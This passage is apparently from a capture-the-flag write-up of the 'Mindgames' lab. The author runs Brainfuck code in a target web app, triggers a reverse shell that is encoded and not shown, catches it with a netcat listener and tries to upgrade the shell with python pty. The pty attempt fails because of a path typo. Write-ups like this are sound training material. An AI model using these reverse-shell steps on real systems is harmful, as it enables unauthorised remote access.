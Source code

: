 I get back to the application and try to input the example **Brainfuck** code from **Hello, Wor!d**:

![Untitled](/assets/Mindgames%20images/Untitled%204.png)

It worked! Now I paste my encoded reverse shell and execute it:

![Untitled](/assets/Mindgames%20images/Untitled%205.png)

Start a listener on my local machine and get connect to the shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.214.91] 41410
$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
```

## User flag

I tried to upgrade my shell with `pty` using **python3** but it did not work:

```
$ python3 -c "import pty;pty.spawn('/bin/bash/')"
python3 -c "import pty;pty.spawn('/bin/bash/')"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/usr/lib/python3.6/pty.py", line 156, in spawn
    os.execlp(argv[0], *argv)
  File "/usr/lib/python3.6/os.py", line 542, in execlp
    execvp(file, args)
  File "/usr/lib/python3.6/os.py", line 559, in execvp
    _execvpe(file, args)
  File "/usr/lib/python3.6/os.py", line 583, in _execvpe
    exec_func(file, *argrest)
NotADirectoryError: [Errno 20] Not a directory
```
